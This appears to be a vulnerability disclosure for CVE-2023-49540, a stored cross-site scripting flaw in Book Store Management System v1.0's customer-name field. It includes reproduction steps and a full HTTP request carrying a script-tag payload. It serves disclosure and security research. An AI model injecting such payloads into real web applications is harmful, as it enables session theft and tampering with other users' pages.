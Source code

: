 # CVE-2023-49540
# Book Store Management System v1.0 -  Cross-site scripting (XSS) vulnerability in /index.php/history - vulnerable field: "Customer's Name".


**Description**: Book Store Management System v1.0 was discovered to contain a cross-site scripting (XSS) vulnerability in /bsms_ci/index.php/history. The payload is inserted into the 'Customer's Name' field on the /bsms_ci/index.php/transaction page. When we check the /bsms_ci/index.php/history page, our payload is successfully injected and functional.  

**Vulnerable Product Version**: Book Store Management System v1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 29/11/2023  
**Confirmed on**: 15/12/2023  
**CVE**: CVE-2023-49540  
**Tested on**: Windows  
### Steps to reproduce:  
To exploit this, the payload is inserted into the 'Customer's Name' field on the "/bsms_ci/index.php/transaction" page. Upon verification on the "/bsms_ci/index.php/history" page, it is confirmed that the payload has been successfully injected and is operational. 
### Request:

```
POST /bsms_ci/index.php/transaction/save HTTP/1.1
Host: 192.168.68.148
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://192.168.68.148
Connection: close
Referer: http://192.168.68.148/bsms_ci/index.php/transaction
Cookie: csrftoken=1hWW6JE5vLFhJv2y8LwgL3WNPbPJ3J2WAX9F2U0Fd5H5t6DSztkJWD4nWFrbF8ko; sessionid=xrn1sshbol1vipddxsijmgkdp2q4qdgq; ci_session=5e3p7a2j4a65ocjof08v80jugf17i5cd
Upgrade-Insecure-Requests: 1

user_code=2&buyer_name=1200%3cscript%3ealert(1)%3c%2fscript%3e&total=0&pay=Pay
```
Discoverer(s)/Credits:  
Geraldo Alcântara  
